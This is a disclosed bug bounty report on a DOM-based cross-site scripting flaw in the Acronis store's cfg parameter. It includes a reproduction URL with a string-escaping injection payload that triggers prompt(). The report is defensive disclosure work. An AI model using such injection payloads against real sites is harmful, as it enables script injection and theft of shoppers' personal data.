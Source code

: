 # DOM based XSS in store.acronis.com/<id>/purl-corporate-standard-IT [cfg parameter]

## Report Details
- **Report ID**: 968690
- **URL**: https://hackerone.com/reports/968690
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-08-27T13:56:02.232Z
- **Disclosed**: 2020-10-20T14:37:52.054Z

## Reporter
- **Username**: f_m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary
Hi Acronis team, i found a DOM based XSS in store.acronis.com, this vulnerability arise from a missing escape for the \ character.

## Steps To Reproduce

  1. go to: https://store.acronis.com/837/purl-corporate-standard-IT?cart=201591&deliveryEmail=f_m%2B5%40wearehackerone.com&deliveryFirstname=fmfm&deliveryEmailRetype=f_m%2B5%40wearehackerone.com&deliveryPhone1=fmfm&deliveryLastname=fmfmfm&x-uid=%22%3e%3ctestxss&quantity_201591=1&recommendation=cloud_20off&recommendation=ACPPLP&x-page=https://www.acronis.com/it-it/business/backup/server/purchasing/&tracking=&x-segment=corporate&cfg=\\ciao%27}];prompt();var%20asd=[{%27foo%27:%27bar
  2. a prompt appear

{F965980}

## Impact
since it's in the store subdomain, this can lead to PII stealing

## Recommendations
escape the \ character in \\

## Impact

since it's in the store subdomain, this can lead to PII stealing

## Attachments
- reflected_xss.JPG
